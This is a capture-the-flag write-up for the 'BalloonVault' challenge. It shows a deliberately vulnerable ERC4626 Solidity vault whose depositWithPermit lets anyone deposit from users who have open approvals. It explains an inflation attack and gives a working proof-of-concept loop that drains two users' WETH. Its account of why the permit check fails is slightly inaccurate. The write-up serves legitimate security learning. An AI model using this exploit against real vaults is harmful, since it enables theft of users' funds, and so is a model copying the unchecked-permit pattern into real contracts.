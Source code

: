 # BalloonVault

## Challenge

This challenge provides us with an implementation of an ERC4626 Vault:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {ERC20, IERC20Permit, ERC4626} from "@openzeppelin/contracts/token/ERC20/extensions/ERC4626.sol";

/**
 * @title BallonVault
 */
contract BallonVault is ERC4626 {

    /**
     * @dev Constructor that sets the address of the underlying asset of the Vault (an ERC20 token)
     * @param underlying The address of the underlying asset
     */
    constructor(address underlying) ERC20("BallonVault", "E4626B") ERC4626(ERC20(underlying)) {}

    /**
     * @dev Deposit ERC20 tokens into the Vault
     * @param from The address to deposit the ERC20 tokens from
     * @param amount The amount of ERC20 tokens to deposit
     * @param deadline The deadline for the deposit to be made
     * @param v The v value of the signature
     * @param r The r value of the signature
     * @param s The s value of the signature
     */
    function depositWithPermit(address from, uint256 amount, uint256 deadline, uint8 v, bytes32 r, bytes32 s)
        external
    {
        IERC20Permit(address(asset())).permit(from, address(this), amount, deadline, v, r, s);

        _deposit(from, from, amount, previewDeposit(amount));
    }
}
```

Challenge Description:

A ERC4626 vault known as the "Balloon Vault" has been built to gather WETH and invest it on multiple strategies. This vault was thought to be impenetrable, designed meticulously to maintain the security and integrity of the tokens stored within.

The process was straightforward: individuals deposited their digital assets into the Balloon Vault, receiving shares in return. These shares represented their holdings and served as a way to track their savings. 

Two users of the vault, Alice and Bob, have fallen prey to a potential security vulnerability, jeopardizing their significant holdings of 500 WETH each. Protocol try to reach them with no luck...

You have been summoned by the custodians of the Balloon Vault, challenged to assess and exploit the lurking vulnerability, and drain the wallets of Alice and Bob before a bad actor do it. By successfully accomplishing this, you rescue 1000 WETH from Alice & Bob.

📌 Drain *Bob's wallet* and *Alice's wallet*

📌 End up with more than `1000 ETH` in your wallet


## Solution

The solution relies on 2 steps. 

### 1. Missing checks in depositWithPermit()

The function depositWithPermit() is missing checks on the return value of the permit() function. Due to this, you can present it with any signature and it will still call the deposit() function. This function still has some security features and will revert if there is no approval from the "from"-address to the vault. Nevertheless, this allows us to transfer money from contracts that have open approvals to the vault, to the vault. But this in itself doesn't help us in stealing the money as we can only transfer the weth to the vault but not ourselves.

### 2. Exploiting the Division

There is a very well-known vulnerability in ERC4626 vaults, which is called an [Inflation Attack](https://mixbytes.io/blog/overview-of-the-inflation-attack). This attack works in multiple steps. In our case we can implement it like this:

1. Use the depositWithPermit() with a valid/invalid signature to deposit 1 wei
2. Transfer our whole balance to the vault using weth.transfer()
3. Force Alice/Bob to deposit the amount we transferred using transfer()
4. Due to the totalAsset() being 1 more than the deposit by Alice/Bob and the totalSupply() being 1, they won't get a single share
5. Withdraw our 1 share and get all the money in the vault
6. Repeat until everyone is drained

In my case, I first did this with 2 loops that were looping 50x each, but I decided to then improve and always use our actual balance which simplified the code (a bit). Below you can see my POC:

```solidity
//First we change our eth to weth
weth.deposit{value: 10 ether}();

//Then we approve the vault to spend our weth
//NOTE: This would make the attacker vulnerable to the same attack. 
weth.approve(address(vault), type(uint256).max);

//Tracker of our balance
uint256 currentAttackerBalance = weth.balanceOf(address(attacker));

//Now we loop until we have more weth than Alice
while(currentAttackerBalance < weth.balanceOf(address(alice)))
{
    //Deposit 1 weth to get 1 share
    vault.depositWithPermit(address(attacker), 1, block.number + 100, 0, 0, 0);

    //Transfer all our money to the vault
    weth.transfer(address(vault), currentAttackerBalance-1);

    //Let Alice deposit but due to the division, she gets 0 shares
    vault.depositWithPermit(alice, currentAttackerBalance-1, block.number + 100, 0, 0, 0);

    //Now we withdraw our 1 share which is all the money in the vault
    vault.withdraw(vault.maxWithdraw(attacker), address(attacker), address(attacker));

    //Update the balance
    currentAttackerBalance = weth.balanceOf(address(attacker));
}

//Now we empty the rest of Alice's account, we do the same as above
vault.depositWithPermit(address(attacker), 1, block.number + 100, 0, 0, 0);
weth.transfer(address(vault), weth.balanceOf(address(alice)));
vault.depositWithPermit(alice, weth.balanceOf(address(alice)), block.number + 100, 0, 0, 0);
vault.withdraw(vault.maxWithdraw(attacker), address(attacker), address(attacker));


//As we have the funds now, Bob is super easy to drain, we do the same as above
vault.depositWithPermit(address(attacker), 1, block.number + 100, 0, 0, 0);
weth.transfer(address(vault), weth.balanceOf(address(bob)));
vault.depositWithPermit(bob, weth.balanceOf(address(bob)), block.number + 100, 0, 0, 0);
vault.withdraw(vault.maxWithdraw(attacker), address(attacker), address(attacker));
```